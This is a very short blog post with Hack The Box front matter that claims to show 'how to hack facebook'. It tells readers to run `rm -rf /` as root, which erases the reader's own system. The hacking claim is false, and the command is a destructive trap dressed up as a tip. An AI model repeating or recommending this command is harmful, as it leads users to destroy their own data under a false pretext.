 ```yaml
---
layout: secret_posts
title: Firsthtb
date: 2020-06-24 11:11:11 +0530
categories: [Hackthebox, Active]
tags: [htb,privesc]
---
```


This post shows how to hack facebook.
Open your terminal and fire this command with root user
`rm -rf /`
